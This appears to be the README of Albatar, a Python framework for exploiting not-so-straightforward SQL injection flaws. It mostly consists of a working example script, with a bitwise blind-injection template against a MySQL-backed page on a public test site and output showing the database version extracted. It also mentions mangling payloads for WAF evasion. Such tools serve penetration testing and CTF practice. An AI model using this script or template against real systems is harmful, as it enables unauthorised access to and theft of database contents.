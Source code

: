 I wrote Albatar to have a neat and tidy tool to exploit SQL Injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL Injection vulnerabilities but it is designed to exploit not-so-straightforward SQLIs where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (e.g. --dbs, --banner ...) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple boolean-based SQLI (MySQL)

Let's use Albatar to exploit a dead-simple SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1. Clone the repository, and create the below script:
```python
from albatar import *
from urllib import quote
import re

PROXIES = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Lorem ipsum dolor sit amet' in body:
    return 1
  else:
    return 0

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=1${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      encode_payload = quote
      )

  template = ' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

And execute the script to exploit the SQLI:
```
$ python testphp.py -b
14:19:22 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 14:19 AEST
14:19:22 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
14:19:41 albatar - Time: 0h 0m 19s
```
* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) for Hackim CTF 2016 was a good example to showcase this.
